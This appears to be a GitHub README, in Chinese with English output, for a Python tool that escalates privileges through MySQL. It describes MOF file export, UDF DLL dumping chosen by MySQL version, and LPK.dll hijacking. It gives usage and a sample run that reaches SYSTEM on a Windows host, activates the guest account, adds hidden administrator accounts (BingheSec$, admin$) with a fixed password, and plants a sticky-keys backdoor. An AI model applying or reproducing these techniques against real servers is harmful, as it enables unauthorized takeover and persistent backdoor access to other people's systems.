 # python-promoting-privileges
1.自动导出mof文件，

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项有问题，已经注释掉 
#usage:
```python sec.py host port user pass```

#Response:
```
Last login: Wed Jul 6 17:13:31 on ttys001
BinghedeMac:~ BingheSec$ python /sec.py 192.168.1.10 3306 root root

 ===============================================================================
|                                                                               |
|                BingheSec Mysql Promote Privileges Tool                        |
|                                                                               |
 ===============================================================================
Usage as: sec.py host port user pass
Example: sec.py 192.168.1.6 3306 root 123456
Current connection: 192.168.1.10:3306/root/root
Mysql Version is 5.5.40
Mysql Version>5.0 , UDF dll can only dump to plugin dir!
Mysql RootPath : C:/Program Files/phpStudy/MySQL/
UDF DLL PATH : C:/Program Files/phpStudy/MySQL/lib/plugin/BingheSec.dll

UDf will make the user 'guest' active and add to admin with the pass 789456123+abc
The sql of Dumping AddUser And AddToAdmin MOF File has queried OK.
Press shift 5 times then press 1,2 at the same time to start the lpk UI,pass:binghesec
Mof and LPK will add users named BingheSec$/admin$ with password: 789456123+abc
Mof file only fit for windows2003 , please test it byourself!
Command Query Result:
-------------------------------------------------------------------------------

Microsoft Windows [版本 5.2.3790]
nt authority\system
命令成功完成。

命令成功完成。

命令成功完成。

别名 administrators
注释 管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------

admin$
Administrator
BingheSec$
Guest
命令成功完成。
```
